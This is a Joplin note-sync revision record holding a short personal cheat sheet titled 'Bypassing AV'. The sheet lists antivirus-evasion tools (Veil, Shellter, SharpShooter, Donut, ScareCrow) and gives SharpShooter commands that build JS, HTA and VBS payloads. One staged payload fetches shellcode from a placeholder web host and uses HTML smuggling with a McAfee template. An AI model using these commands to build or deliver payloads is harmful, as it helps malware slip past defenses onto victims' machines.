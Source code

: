 id: b25f07c9068f4d88aaf9bc9b2457a0b2
parent_id: 
item_type: 1
item_id: 5fbd02771887459f9fc3f631551dc539
item_updated_time: 1646016698497
title_diff: "[{\"diffs\":[[1,\"47faae86a8ca432ba0f2a6a800a9f918\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"Bypassing AV\\\r\\\n\\\r\\\n## Veil Framework:\\\r\\\n\\\r\\\nInstall on Kali: \\\r\\\n- apt install veil\\\r\\\n- /usr/share/veil/config/setup.sh --force --silent\\\r\\\n\\\r\\\nReference: https://github.com/Veil-Framework/Veil\\\r\\\n\\\r\\\n## Shellter\\\r\\\n\\\r\\\nSource: https://www.shellterproject.com/download/\\\r\\\n\\\r\\\n- apt install shellter\\\r\\\n\\\r\\\n\\\r\\\n## Sharpshooter\\\r\\\n\\\r\\\nJavascript Payload Stageless: \\\r\\\n- SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3\\\r\\\n\\\r\\\nStageless HTA Payload: \\\r\\\n\\\r\\\n- SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee\\\r\\\n\\\r\\\nStaged VBS:\\\r\\\n\\\r\\\n- SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4\\\r\\\n\\\r\\\nReference: https://github.com/mdsecactivebreach/SharpShooter\\\r\\\n\\\r\\\n## Donut: \\\r\\\n\\\r\\\nSource: https://github.com/TheWover/donut\\\r\\\n\\\r\\\n## Vulcan\\\r\\\n\\\r\\\nSource: https://github.com/praetorian-code/vulcan\\\r\\\n\\\r\\\n\\\r\\\n## Scarecrow\\\r\\\n\\\r\\\nSource: https://github.com/optiv/ScareCrow\\\r\\\n\\\r\\\nIn Kali: \\\r\\\n\\\r\\\nsudo apt install golang\\\r\\\n\\\r\\\ngo get github.com/fatih/color\\\r\\\ngo get github.com/yeka/zip\\\r\\\ngo get github.com/josephspurrier/goversioninfo\\\r\\\n\\\r\\\ngo build ScareCrow.go\\\r\\\n\\\r\\\n./ScareCrow\\\r\\\n\\\r\\\n\\\r\\\n\\\r\\\nid: 47faae86a8ca432ba0f2a6a800a9f918\\\r\\\nparent_id: c26fa1723bb34bf18d91cd4b533bf7b3\\\r\\\ncreated_time: 2019-11-27T16:06:06.835Z\\\r\\\nupdated_time: 2022-01-25T01:31:59.277Z\\\r\\\nis_conflict: 0\\\r\\\nlatitude: 0.00000000\\\r\\\nlongitude: 0.00000000\\\r\\\naltitude: 0.0000\\\r\\\nauthor: \\\r\\\nsource_url: \\\r\\\nis_todo: 0\\\r\\\ntodo_due: 0\\\r\\\ntodo_completed: 0\\\r\\\nsource: joplin-desktop\\\r\\\nsource_application: net.cozic.joplin-desktop\\\r\\\napplication_data: \\\r\\\norder: 1611953312845.5\\\r\\\nuser_created_time: 2019-11-27T16:06:06.835Z\\\r\\\nuser_updated_time: 2021-06-10T04:18:09.139Z\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nmarkup_language: 1\\\r\\\nis_shared: 0\\\r\\\nshare_id: \\\r\\\nconflict_original_id: \\\r\\\nmaster_key_id: \\\r\\\ntype_: 1\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1951}]"
metadata_diff: {"new":{"id":"5fbd02771887459f9fc3f631551dc539","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016698487,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:22.982Z
created_time: 2022-02-28T02:54:22.982Z
type_: 13